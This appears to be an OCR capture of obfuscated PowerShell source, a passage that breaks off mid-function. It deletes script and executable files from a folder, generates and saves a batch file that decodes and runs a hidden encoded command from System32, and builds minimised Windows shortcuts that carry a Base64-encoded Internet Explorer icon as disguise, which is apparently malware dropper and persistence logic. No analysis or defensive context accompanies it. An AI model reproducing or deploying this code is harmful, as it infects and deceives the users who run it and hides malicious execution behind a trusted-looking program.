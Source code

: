     ${//////////____zz//} = "${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_\\\\\\/|\\\\\\\\\\\\\\\\\_}"
    ${ZZZZxxxx_}  =  ${/\/\/\/\__\\//___}
    ${ZZZZxxxx_} | Set-Content ${//////////____zz//}${GER}
    ${\\/_} = (${_\\\\\\/|\_/|/\\\___\\\\/|_})
    ${\\/////\} = (${_\\\\\\/|\_/|/\\\___\\\\/|_} + "A")
    ${/\} = (${_\\\\\\/|\_/|/\\\___\\\\/|_} + "B") 	
	del ${_\\\\\\/|\_/|/\\\\\\\/|_}\*.vbs
    del ${_\\\\\\/|\_/|/\\\\\\\/|_}\*.lnk
    del ${_\\\\\\/|\_/|/\\\\\\\/|_}\*.exe
    del ${_\\\\\\/|\_/|/\\\\\\\/|_}\*.cmd
    ${/_//_//_/} = "${_\\\\\\/|\_/|/\\\\\\\/|_}\${_\\\\\\/|\\\\\\\\\\\\\\\\\_}${GER}.${_/|\_/|////\__|/_|\\_}"
    ${\\\\__/////////}  =  "@Echo off`r`n"
	${\\\\__/////////}  += "Setlocal EnableExtensions`r`n"
    ${\\\\__/////////}  += "Setlocal EnableDelayedExpansion`r`n"
    ${\\\\__/////////}  += "cd %SystemRoot%\System32`r`n"
    ${\\\\__/////////}  += "Set /P ${_\\\\\\/|\_/|/\\\___\\\\/|_}=<`"${//////////____zz//}${GER}`"`r`n"
	${\\\\__/////////}  += "set chars=0123456789abcdefghijklmnopqrstuvwxyz`r`n"
	${\\\\__/////////}  += "for /L %%N in (10 1 36) do (`r`n"
	${\\\\__/////////}  += "for /F %%C in (`"!chars:~%%N,1!`") do (`r`n"
	${\\\\__/////////}  += "set `"${_\\\\\\/|\_/|/\\\___\\\\/|_}=!${_\\\\\\/|\_/|/\\\___\\\\/|_}:%%N=%%C!`"`r`n"
    ${\\\\__/////////}  += ")`r`n"
    ${\\\\__/////////}  += ")`r`n"
    ${\\\\__/////////}  += ")`r`n"
    ${\\\\__/////////}  += "for /F %%F in (`"!${_\\\\\\/|\_/|/\\\___\\\\/|_}!`") do (`r`n"
    ${\\\\__/////////}  += "set `"${_\\\\\\/|\_/|/\\\___\\\\/|_}=!${_\\\\\\/|\_/|/\\\___\\\\/|_}:@=!`"`r`n"
    ${\\\\__/////////}  += ")`r`n"
    ${\\\\__/////////}  += "for /F %%F in (`"!${_\\\\\\/|\_/|/\\\___\\\\/|_}!`") do (`r`n"
    ${\\\\__/////////}  += "set `"${_\\\\\\/|\_/|/\\\___\\\\/|_}=!${_\\\\\\/|\_/|/\\\___\\\\/|_}:`"=!`"`r`n"
    ${\\\\__/////////}  += ")`r`n"
    ${\\\\__/////////}  += "%${_\\\\\\/|\_/|/\\\___\\\\/|_}%`r`n"
    ${\\\\__/////////} | Set-Content ${/_//_//_/}
function _____/\_/\/\_/\/=\\\\\\\\\\/////
{
  Param([string]${___/\_/=\___/\_/==},[string]${__/==\/\_/\/=\/\_/});
  try{  
    ${__/\_/=\/=\/=====} = New-Object -ComObject WScript.Shell 
    ${/=\/\__/=\/=\/=\_} = ${__/\_/=\/=\/=====}.CreateShortcut(${___/\_/=\___/\_/==}) 
    ${/=\/\__/=\/=\/=\_}.TargetPath = "${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_\\\\\\/|\_/|/\\\___\\\\/|_}.${_/|\_/|////\__|/_|\\\\\\/|_}"     
    ${/=\/\__/=\/=\/=\_}.Arguments = "${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_\\\\\\/|\_/|/\\\___\\\\/|_}.ai"  
    ${/=\/\__/=\/=\/=\_}.WorkingDirectory = "${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\" 
    ${/=\/\__/=\/=\/=\_}.WindowStyle = 7   
    ${/=\/\__/=\/=\/=\_}.IconLocation = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('JQBQAHIAbwBnAHIAYQBtAEYAaQBsAGUAcwAlAFwASQBuAHQAZQByAG4AZQB0ACAARQB4AHAAbABvAHIAZQByAFwAaQBlAHgAcABsAG8AcgBlAC4AZQB4AGUALAAxAA==')))
    ${/=\/\__/=\/=\/=\_}.Save()
  }finally{}
}
function _____/\_/\/\_/\/=\\\\\\\\\\/////\\\\\\\\\\\\\\\\\\\\\\\
{
  Param([string]${___/\_/=\___/\_/==},[string]${__/==\/\_/\/=\/\_/});
  try{  
    ${__/\_/=\/=\/=====} = New-Object -ComObject WScript.Shell 
    ${/=\/\__/=\/=\/=\_} = ${__/\_/=\/=\/=====}.CreateShortcut(${___/\_/=\___/\_/==}) 
    ${/=\/\__/=\/=\/=\_}.TargetPath = "${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_\\\\\\/|\_/|/\\\___\\\\/|_}.${_/|\_/|////\__|/_|\\\\\\/|_}"     